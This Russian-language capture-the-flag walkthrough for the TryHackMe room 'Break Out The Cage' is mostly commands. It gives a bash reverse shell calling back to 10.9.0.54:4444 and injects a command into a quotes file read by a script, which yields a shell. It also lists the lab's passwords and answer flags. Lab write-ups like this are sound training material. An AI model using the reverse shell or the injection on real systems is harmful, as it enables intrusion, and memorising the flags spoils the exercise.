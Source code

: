 

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Break Out The Cage](https://tryhackme.com/r/room/breakoutthecage1) 

Всего 1 заданиe:
## Задание 1
Давайте узнаем, чем занимается его агент...

### Ответьте на вопросы ниже
Какой пароль у Уэстона?
```commandline
nmap -sC -sV <IP>
ftp <IP>
ls -la
get dad_tasks
cat dad_tasks | base64 -d
```
```commandline
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```
Что такое флаг пользователя?
```commandline
ssh weston@<IP>
weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes
sudo -l
ls -l /usr/bin/bees
sudo /usr/bin/bees 
find / -type f -user cage 2>/dev/null
cat /opt/.dads_scripts/spread_the_quotes.py
cat /opt/.dads_scripts/.files/.quotes
nc -nlvp 4444

cat > /tmp/shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/10.9.0.54/4444 0>&1
EOF

chmod +x /tmp/shell.sh
printf 'anything;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
cat Super_Duper_Checklist
```
```commandline
THM{M37AL_0R_P3N_T35T1NG}
```
Что такое корневой флаг?
```commandline
cat email_backup/*
su root
Password: cageisnotalegend
ls -la
cd email_backup
cat email_1
```
```commandline
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)